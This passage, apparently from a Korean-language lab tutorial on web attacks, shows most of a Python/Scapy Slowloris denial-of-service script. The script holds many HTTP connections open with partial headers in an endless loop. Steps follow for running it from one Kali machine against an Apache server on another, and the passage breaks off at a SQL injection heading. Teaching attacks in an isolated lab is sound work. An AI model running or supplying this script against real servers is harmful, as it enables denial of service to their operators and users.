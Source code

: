 ```python
    for sa in syn_ack :
        payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1,num))) +\
        "Host: {}\r\n".format(target) +\
        "User-Agent: Mozilla/4.0\r\n" +\
        "Content-Length: 42\r\n"

        ack.append(IP(dst=target)/TCP(sport=sa[1].dport,dport=80,flags="A",seq=sa[1].ack,ack=sa[1].seq+1)/payload)
    
    answer = sr(ack, verbose=0)[0]
    print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
    print "Sending data \"X-a: b\\r\\n\".."

    count = 1
    while True :
        print "{} time sending".format(count)
        ack = []
        for ans in answer :
            ack.append(IP(dst=target)/TCP(sport=ans[1].dport,dport=80,flags="PA",seq=ans[1].ack,ack=ans[1].seq)/"X-a: b\r\n")
        answer = sr(ack, inter=0.5, verbose=0)[0]
        time.sleep(10)
        count += 1

if __name__ == "__main__" :
    if len(sys.argv) < 3 :
        print "Usage: {} <target> <number of connection>".format(sys.argv[0])
        sys.exit(1)
    slowloris(sys.argv[1], int(sys.argv[2]))

```

Kali#1에서 서버 재 기동후 서버 상태 확인 및 wireshark 실행

\# service apache2 stop

\# service apache2 start

http://localhost/server-status 접속

<br>

Kali#2에서 아래 명령어를 실행

\# python slowloris.py KALI#1_IP 50



<br>

<br>

#### SQL Injection

Kali#1 : server 
